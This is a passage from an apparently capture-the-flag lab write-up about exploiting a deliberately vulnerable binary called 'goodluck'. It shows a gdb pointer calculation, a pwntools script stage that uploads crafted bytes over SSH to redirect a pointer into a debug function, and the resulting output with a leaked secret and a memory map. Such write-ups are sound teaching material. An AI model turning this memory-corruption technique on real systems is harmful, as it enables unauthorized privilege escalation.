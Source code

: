 Once I do that, the programs reference to `hey.admin`, EBX+0x78, now points to
the middle four bytes in `hey.user`. The first byte will be overwritten with a
0 in the reading process, but the rest is some non-zero value, and will pass
the second test, and go to debug.

EBX just needs to be shifted 4 more bytes from what it was in stage 1, to :

    
    
    gdb-peda$ p 0x80002ff8 - 4
    $4 = 0x80002ff4
    

I’ll add stage 2 to the script:

    
    
    ## Stage 2 - Access Debug
    log.info(f'Writing Stage 2 exploit to {fn}')
    sshConn.upload_data(p32(int(secret, 16)) + b'AAAA' + p32(0x80002ff4), fn)
    goodluck.sendline("4")
    goodluck.recv(4096)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("3")
    print(goodluck.recv(4096).decode())
    

It prints out the start of `debug` and waits for a filename:

    
    
    root@kali# python3 rootpwn.py 
    [x] Connecting to 10.10.10.27 on port 22
    [+] Connecting to 10.10.10.27 on port 22: Done
    [*] xalvas@10.10.10.27:
        Distro    Ubuntu 16.04
        OS:       linux
        Arch:     i386
        Version:  4.4.0
        ASLR:     Disabled
        Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
    [x] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27
    [+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 8366
    [+] Found secret: 0x1019d3b
    
    this function is problematic on purpose
    
    I'm trying to test some things...and that means get control of the program! 
    vulnerable pointer is at bffffbf0
    memory information on this binary:
    
    80000000-80002000 r-xp 00000000 08:01 404837     /home/xalvas/app/goodluck
    80002000-80003000 r--p 00001000 08:01 404837     /home/xalvas/app/goodluck
    80003000-80004000 rw-p 00002000 08:01 404837     /home/xalvas/app/goodluck
    80004000-80025000 rw-p 00000000 00:00 0          [heap]
    b7e1a000-b7e54000 r-xp 00000000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7e54000-b7e55000 r--p 0003a000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7e55000-b7fca000 r-xp 0003b000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fca000-b7fcc000 r--p 001af000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fcc000-b7fcd000 rw-p 001b1000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
    b7fcd000-b7fd0000 rw-p 00000000 00:00 0 
    b7fd6000-b7fd8000 rw-p 00000000 00:00 0 
    b7fd8000-b7fda000 r--p 00000000 00:00 0          [vvar]
    b7fda000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
    b7fdb000-b7ffd000 r-xp 00000000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    b7ffd000-b7ffe000 rw-p 00000000 00:00 0 
    b7ffe000-b7fff000 r--p 00022000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    b7fff000-b8000000 rw-p 00023000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
    bfedf000-c0000000 rw-p 00000000 00:00 0          [stack]
    